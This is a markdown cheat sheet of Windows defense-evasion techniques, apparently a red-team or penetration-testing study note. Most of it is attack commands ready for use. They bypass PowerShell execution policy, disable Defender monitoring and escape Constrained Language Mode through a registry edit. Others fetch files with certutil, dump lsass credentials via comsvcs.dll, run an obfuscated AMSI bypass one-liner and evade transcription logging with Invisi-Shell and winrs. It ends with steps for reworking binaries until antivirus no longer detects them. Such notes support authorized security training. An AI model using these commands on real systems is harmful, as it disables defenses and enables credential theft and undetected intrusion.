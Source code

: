 # Evasion
## Execution-policy
- Not meant to be a security measure
```
powershell –executionpolicy bypass .\script.ps1
powershell –c <cmd>
powershell –enc
powershell.exe -executionpolicy bypass
```

## AV
#### Disable AV monitoring
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Constrained Lanuage Mode
#### Check the language mode
```
$ExecutionContext.SessionState.LanguageMode
```

### Escapes for Constrained Language Mode
#### Launch Powershell Version 2
```
Powershell.exe -Version 2
```

#### Overwrite __PSLockdownPolicy variable
- If CLM is not implemented correctly.
- https://github.com/Metoraf007/Public_PowerShell/blob/master/Bypass_ConstrainedLang.ps1
```
#Requires -RunAsAdministrator

If ( $ExecutionContext.SessionState.LanguageMode -eq "ConstrainedLanguage") {
    Set-ItemProperty 'hklm:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment' -name "__PSLockdownPolicy" -Value 8

    Start-Process -File PowerShell.exe -Argument "-file $($myinvocation.mycommand.definition)"
    Break
}

Write-Host $ExecutionContext.SessionState.LanguageMode

Start-Sleep -s 10
```

#### Download files with certutil
```
certutil -urlcache -split -f <URL>
```

## Applocker
#### Check if applocker policy is running
```
Get-AppLockerPolicy -Effective
```

#### Enumerate applocker policy
```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

#### Check applocker policy in registery
```
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

#### Check for WDAC
```
Get-CimInstance -ClassName Win32_DeviceGuard -Namespace root\Microsoft\Windows\DeviceGuard
```

#### If code integrity is enforced and PowerShell is running in Constrained Langauge Mode use winrs instead of psremoting
```
runas /netonly /user:<DOMAIN\<USER> cmd.exe
winrs -r:<PC NAME> cmd
```

### LOLBAS
- Use Microsoft Signed Binaries to exploit https://lolbas-project.github.io/

#### For example dumping lsass:
```
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 708 C:\Users\Public\lsass.dmp full
dir C:\Users\Public\lsass.dmp
```

#### Powershell detections
- System-wide transcription
- Script Block logging 
- AntiMalware Scan Interface (AMSI)
- Constrained Language Mode (CLM) - Integrated with Applocker and WDAC (Device Guard)

## AMSI Bypass
- https://amsi.fail/
- Then obfuscate with https://github.com/danielbohannon/Invoke-Obfuscation
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

```
Invoke-Command -Scriptblock {S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )} $sess
```

## Invisi-shell
- Bypasses Sytem-Wide transcript
- https://github.com/OmerYa/Invisi-Shell
- Type exit from the new PowerShell session to complete the clean-up.

#### With admin privileges
```
./RunWithPathAsAdmin.bat 
```

#### With non-admin privileges:
```
RunWithRegistryNonAdmin.bat
```

## Winrs
- Use Winrs instead of PSRemoting to evade System-wide-transcript and deep script block logging
```
winrs -remote:server1 -u:<COMPUTERNAME>\<USER> -p:<PASS> hostname
```

## Com objects
- https://github.com/bohops/WSMan-WinRM

## AV Bypass
- Defendercheck to check for signatures https://github.com/matterpreter/DefenderCheck
- Run Defendercheck ```DefenderCheck.exe <PATH TO BINARY>```
- Replace string which gets detected.
- Recompile and check again!

- Obfuscate binary with https://github.com/mkaring/ConfuserEx
- Launch ConfuserEx
- In Project tab select the Base Directory where the binary file is located.
- In Project tab Select the Binary File that we want to obfuscate.
- In Settings tab add the rules.
- In Settings tab edit the rule and select the preset as `Normal`.
- In Protect tab click on the protect button.
- We will find the new obfuscated binary in the Confused folder under the Base Directory.
